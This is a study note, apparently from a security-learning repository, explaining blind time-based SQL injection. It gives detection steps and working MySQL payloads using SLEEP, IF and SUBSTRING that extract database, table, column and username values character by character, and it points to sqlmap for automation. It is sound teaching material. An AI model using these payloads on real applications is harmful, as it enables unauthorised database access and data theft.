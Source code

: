 # 02.sql-injection-blind-time-based

27/05/25

## Recall

- What is a Blind Time-Based SQL Injection?
- Why is this technique used instead of standard SQL Injection?
- How does the attacker extract data using time-based payloads?
- What conditions must be present on the server for this to work?
- How can developers prevent Blind Time-Based SQL Injection?

## Notes

### What it is

**Blind Time-Based SQL Injection** is an attack technique used when a web application is vulnerable to SQL Injection but does not return any direct feedback in the HTTP response (i.e., there is no error-based or data-based response). In this scenario, attackers exploit the **time it takes for the database to respond** to infer information.

The technique relies on injecting SQL queries that deliberately cause a delay in the server response using functions like `SLEEP()` (MySQL), `pg_sleep()` (PostgreSQL), or `WAITFOR DELAY` (SQL Server). Combined with logical operators like `IF()`, `CASE WHEN`, and string manipulation functions like `SUBSTRING()`, attackers can extract database information **character by character**, observing whether the server delays its response based on the truth of certain conditions.

This form of SQL Injection is extremely stealthy but slow because it requires many requests to retrieve full pieces of information.

### How to identify it

Detection starts similarly to other SQL Injection attacks:

1. **Injection Testing**:
    
    Test input fields with common payloads:
    
    ```sql
    ' OR 1=1; -- 
    ' UNION SELECT NULL; -- 
    ```
    
    If there's no visible error or output, but some logical bypass occurs (like logging in without valid credentials), SQL Injection might be present.
    
2. **Column Count Discovery**:
    
    Even though it's blind, knowing the number of columns can sometimes still be helpful (especially for confirming injection points in some DBMS):
    
    ```sql
    ' ORDER BY 1 -- -
    ' ORDER BY 2 -- -
    ...
    ```
    
3. **Time-Based Validation**:
Inject a payload to see if the response is delayed:
    
    ```sql
    ' OR SLEEP(5) -- -
    ' UNION SELECT SLEEP(5) -- -
    ```
    
    If the server response consistently delays by the number of seconds specified, it strongly indicates a time-based injection point.
    

### How to exploit it

The exploitation process involves carefully crafting SQL queries that check whether certain conditions are true. If true, the query triggers a delay; if false, it returns immediately. The attacker monitors the response time to deduce whether the condition holds.

The main functions used:

- **`SUBSTRING(string, position, length)`**
    
    Extracts a part of the string starting from `position` with `length` characters.
    
- **`IF(condition, true_action, false_action)`**
    
    Evaluates the condition. If it's true, executes `true_action` (e.g., `SLEEP(5)`), else executes `false_action` (usually `NULL`).
    
- **`SLEEP(seconds)`**
    
    Delays the response for the specified number of seconds (MySQL example).
    

Payload example for extracting the database name:

Check whether the first character of the database name is `t`:

```sql
IF(SUBSTRING(DATABASE(), 1, 1) = 't', SLEEP(5), NULL);
```

If the server delays, the letter is correct. Repeat the process for the next letters:

```sql
IF(SUBSTRING(DATABASE(), 1, 2) = 'ta', SLEEP(5), NULL);
IF(SUBSTRING(DATABASE(), 1, 3) = 'tar', SLEEP(5), NULL);
...
```

Until the full name is recovered.

---

Payload example for extracting the database tables:

Get the first table in the database `target_db`:

```sql
IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='target_db' LIMIT 0,1), 1, 1) = 'u', SLEEP(5), NULL);
```

If the server delays, the letter is correct. Repeat the process for the next letters to extract the table’s name

Advance to the next table with:

```sql
IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='target_db' LIMIT 1,1), 1, 1) = 'p', SLEEP(5), NULL);
```

---

Payload example for extracting table columns

For table `users`:

```sql
IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1), 1, 1) = 'i', SLEEP(5), NULL);
```

If the server delays, the letter is correct. Repeat the process for the next letters to extract the column’s name

Move to the next column with:

```sql
IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), 1, 2) = 'na', SLEEP(5), NULL);
```

---

Payload example for extracting data from a table

If there is a `username` column in the `users` table:

```sql
IF(SUBSTRING((SELECT username FROM users LIMIT 0,1), 1, 1) = 'a', SLEEP(5), NULL);
```

Then iterate character by character for each user or data row.

---

While manual exploitation is possible for learning purposes, real-world attackers automate this process using tools like:

- **`sqlmap`** (supports blind time-based extraction)
- Custom Python scripts with requests, time measurement, and loops over character sets (`a-zA-Z0-9_`).

## Summary

**Blind Time-Based SQL Injection** is a stealthy yet powerful method for exploiting SQL injection vulnerabilities when no output is reflected in the application's response. The attacker leverages database-side delay functions (like `SLEEP()`) combined with conditional logic to extract information character by character based on the server’s response time.

This technique is highly effective against hardened applications with error handling and no verbose output but is considerably slower than error-based or union-based injections.